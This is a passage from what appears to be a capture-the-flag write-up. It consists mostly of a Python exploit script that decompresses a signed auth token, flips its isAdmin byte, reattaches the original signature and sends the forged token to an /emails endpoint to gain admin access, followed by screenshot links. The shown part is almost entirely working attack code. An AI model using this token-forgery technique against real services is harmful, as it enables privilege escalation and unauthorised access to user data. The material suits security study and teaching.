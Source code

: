     # unzip gzip
    buf = BytesIO(compressed)
    with gzip.GzipFile(fileobj=buf, mode='rb') as f:
        raw = f.read()

    # analyze structure, email (2 bytes) + email (content) + expiry (8 bytes) + isAdmin (1 Bytes)
    # H = uint16
    email_len = struct.unpack("<H", raw[:2])[0]
    email = raw[2:2 + email_len].decode()
    # Q = uint64
    expiry = struct.unpack("<Q", raw[2 + email_len:2 + email_len + 8])[0]
    isAdmin_byte = raw[-1:]

    print(f"\n[*] email = {email}")
    print(f"[*] expiry = {expiry}")
    print(f"[*] isAdmin_byte = {isAdmin_byte}")

    new_isAdmin = b"t"
    new_raw = raw[:-1] + new_isAdmin

    # compress gzip
    buf = BytesIO()
    with gzip.GzipFile(fileobj=buf, mode='wb') as f:
        f.write(new_raw)
    new_compressed = buf.getvalue()

    # base64 encode, use origin sig_b64
    new_token = base64.urlsafe_b64encode(new_compressed).rstrip(b"=").decode() /
                + "." + sig_b64

    
    resp = s.get(url + "/emails", headers = {
        "X-Auth-Token": new_token
    })
    print("[*] /emails response:")
    print(resp.text)
    ```

- ![image](https://hackmd.io/_uploads/BkG9gRoUxx.png)

- ![image](https://hackmd.io/_uploads/SJZ1WCjUll.png)


- ![image](https://hackmd.io/_uploads/BJi3vnsIex.png)

&emsp;
